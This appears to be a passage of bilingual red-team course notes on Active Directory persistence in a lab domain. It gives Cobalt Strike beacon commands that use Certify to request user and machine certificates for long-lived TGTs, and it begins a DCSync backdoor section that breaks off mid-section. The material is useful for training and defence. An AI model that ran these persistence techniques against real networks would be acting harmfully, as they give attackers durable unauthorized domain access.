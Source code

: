 # User & Computer Persistence

用户&计算机权限维持

## 用户权限维持

查找所有客户端验证的证书
```
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /clientauth
```

![alt Persistence](https://rto-assets.s3.eu-west-2.amazonaws.com/adcs/user-cert-template.png?width=1920)

需要留意的参数：
1. The validity period is 1 year.(有效期为1年)
2. Authorization is not required.(不需要授权)
3. Domain Users in DEV have enrollment rights.（DEV 中的域用户都具有注册权限）

使用下面命令请求证书
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:User
```

上面命令生成的证书允许我们使用 Rubeus 为 nlamb 请求 TGT。它的有效期为 1 年，即使用户更改了密码，它也仍然有效，除非证书在CA上被注销了。


## Computer Persistence

为计算机申请证书的命令大同小异
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:Machine /machine
```

```/machine```参数让Certify提升到system权限，执行上面命令时本身需要```high-integrity```的权限



# Domain Dominance

权限维持

# DCSync Backdoor

如果已经取得了DA权限，可以为某些用户添加DCSync权限


使用```Add-DomainObjectAcl```命令为用户```bfarmer ```添加DCSync权限
```
beacon> getuid
[*] You are DEV\nlamb
